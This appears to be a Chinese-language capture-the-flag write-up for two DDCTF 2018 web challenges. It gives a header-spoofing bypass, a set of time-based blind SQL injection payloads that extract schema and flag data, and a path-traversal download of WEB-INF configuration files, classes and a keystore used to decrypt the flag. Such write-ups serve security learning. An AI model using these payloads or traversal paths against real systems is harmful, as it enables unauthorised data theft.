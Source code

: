 ```yaml
---
title: DDCTF 2018 web writeup
tags: 
  - ctf
date: 2018-04-21 20:53:50
---
```


# DDCTF 2018 2道WEB Writeup

<!-- more -->
## WEB00 数据库的秘密
#### step 1:
index.php 需要以IP:116.85.43.88访问，http头加入 X-Forwarded-For: 116.85.43.88 绕过
#### step 2:
绕过后是一个简单的查询功能，简单测试后发现id,title,date有安全处理，但是表单中还隐藏着author，并且没有做任何处理。以payload`a%' && '%'='%`、`a%' && '%'!='%`确定注入存在,想着用union直接提取出来，发现后台还有WAF，没绕过去，但是对于盲注，成功构造出了payload`a%'&&if(1, sleep (5),1)='%`,发生5秒延迟。（后来想想其实可以用bool型盲注提取数据）
#### step 3:
确认了author字段可以注入，但是这道题还有一个问题就是sha1校验，要想写脚本，必须先解决这个问题。研究了一下main.js，发现以类似`id=title=date=author=time=`的字符串sha1处理后后台校验
#### step 4:
写脚本，主要包括sha1校验和时间盲注，贴一下payload

```
payload_1 = "a%' && if((selEct LENGTH(schema_name) from information_schema.schemata limit {0},1)={1},sleep (5),1)='%"
payload_2 = "a%' && if((selEct substr(schema_name,{0},1) from information_schema.schemata limit {1},1)='{2}',sleep (5),1)='%"
# 获取到库名 ddctf
payload_3 = "a%' && if((selEct LENGTH(table_name) from information_schema.tables where table_schema='ddctf' limit {0},1)='{1}',sleep (5),1)='%"
payload_4 = "a%' && if((selEct substr(table_name,{0},1) from information_schema.tables where table_schema='ddctf' limit {1},1)='{2}',sleep (5),1)='%"
# 获取到表名 message, ctf_key4
payload_5 = "a%' && if((selEct LENGTH(column_name) from information_schema.columns where table_schema='ddctf'&&table_name='ctf_key4' limit {0},1)='{1}',sleep (10),1)='%"
payload_6 = "a%' && if((selEct substr(column_name,{0},1) from information_schema.columns where table_schema='ddctf'&&table_name='ctf_key4' limit {1},1)='{2}',sleep (10),1)='%"
# 获取到列名 ctf_key4:secvalue; message: id,title,author,time,status
payload_5 = "a%' && if((selEct LENGTH(secvalue) from ctf_key4 limit {0},1)='{1}',sleep (10),1)='%"
payload_6 = "a%' && if((selEct substr(secvalue,{0},1) from ctf_key4 limit {1},1)='{2}',sleep (10),1)='%"
# 获取到flag DDCTF{MSBMCTFMXOCBYFYI}
```

## WEB01 专属链接
#### step 1:
根据题目提示，题目只跟链接IP有关，所以主要有
```
http://116.85.48.102:5050/welcom/uuid #主页 注意到上面有email:3814166715717836733@didichuxing.com
http://116.85.48.102:5050/image/banner/ZmF2aWNvbi5pY28= # 给了提示，只能下载.class,.ks,.ico,.xml文件
http://116.85.48.102:5050/news/topFiveNews # 没用
http://116.85.48.102:5050//flag/testflag/yourflag #访问报错，但是暴露了控制器路径com.didichuxing.ctf.controller.user.FlagController.java
```
#### step 2:
那么接下来就是猜路径了，在github上找了个springmvc+mybatis的[项目](https://github.com/liyifeng1994/ssm),经过测试，发现一下几个文件

- ../../WEB-INF/web.xml # 得到WEB-INF/applicationContext.xml，com.didichuxing.ctf.listener.InitListener
- ../../WEB-INF/applicationContext.xml # 得到classpath:mybatis/config.xml
- ../../WEB-INF/classes/mybatis/config.xml # 得到mapper/FlagMapper.xml
- ../../WEB-INF/classes/mapper/FlagMapper.xml # sql语句
- ../../WEB-INF/classes/com/didichuxing/ctf/model/Flag.class
- ../../WEB-INF/classes/com/didichuxing/ctf/listener/InitListener.class
- ../../WEB-INF/classes/com/didichuxing/ctf/controller/user/FlagController.class
- ../../WEB-INF/classes/sdl.ks # 密钥文件
- ../../WEB-INF/classes/com/didichuxing/ctf/service/impl/FlagServiceImpl.class
- ../../WEB-INF/classes/com/didichuxing/ctf/dao/FlagDao.class

#### step 3:
把上述的class文件[在线反编译](http://www.javadecompilers.com/)到java，阅读后发现flagController.java

```
@RequestMapping(value={"/getflag/{email:[0-9a-zA-Z']+}"}, method={org.springframework.web.bind.annotation.RequestMethod.POST})
  public String getFlag(@PathVariable("email") String email, ModelMap model)
  {
    Flag flag = flagService.getFlagByEmail(email);


    return "Encrypted flag : " + flag.getFlag();
  }
```
以用户的邮箱来获取加密的flag，邮箱就是首页上的邮箱，然后通过listener.java得到具体的加密过程

```
        String flag = "DDCTF{" + Math.abs(sr.nextLong()) + "}";
        String uuid = UUID.randomUUID().toString().replace("-", "s");

        byte[] data = cipher.doFinal(flag.getBytes());
        byte[] e = mac.doFinal(String.valueOf(email.trim()).getBytes());

        Flag flago = new Flag();
        flago.setId(Integer.valueOf(id));
        flago.setFlag(byte2hex(data));
        flago.setEmail(byte2hex(e));
        flago.setOriginFlag(flag);
        flago.setUuid(uuid);
        flago.setOriginEmail(email);
```
可以看到Email被转化为16进制的形式，所以需要先对邮箱做处理，简单编写代码（后面放上来），得到8EF662D0406A099B394DC817AB391718DD7BF29CCC1AAF32A7D7AB23C845CA27，以`http://116.85.48.102:5050/flag/getflag/8EF662D0406A099B394DC817AB391718DD7BF29CCC1AAF32A7D7AB23C845CA27`请求后得到加密的flag。

#### step 4:
接下来就是写代码解密flag了，因为密钥文件在手，只需编写程序即可，参考https://stackoverflow.com/questions/39518979/basic-program-for-encrypt-decrypt-javax-crypto-badpaddingexception-decryption?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa
需要注意的是这里用了私钥加密公钥解密。
解密后得到flag



